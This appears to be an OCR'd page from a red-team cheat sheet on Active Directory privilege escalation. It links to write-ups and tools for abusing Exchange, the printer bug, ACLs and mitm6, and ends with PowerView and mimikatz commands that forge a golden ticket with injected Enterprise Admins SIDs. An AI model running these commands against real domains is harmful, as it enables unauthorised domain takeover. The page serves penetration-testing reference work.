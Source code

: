 ### Abusing Exchange

- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

### Weaponizing Printer Bug

- [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

### Abusing ACLs

- [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

### Abusing IPv6 with mitm6

- [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)

### SID History Abuse

*WUT IS DIS?: If we manage to compromise a child domain of a forest and* *[SID filtering](https://www.itprotoday.com/windows-8/sid-filtering)* *isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain*

*Administrator of the root domain of the forest. This is possible because of the* *[SID History](https://www.itprotoday.com/windows-8/sid-history)* *field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.*

Exploitation example:

#Get the SID of the Current Domain using PowerView

Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView

Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID

Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz

kerberos::golden /user:Administrator /domain:current.root.domain.local

/sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0
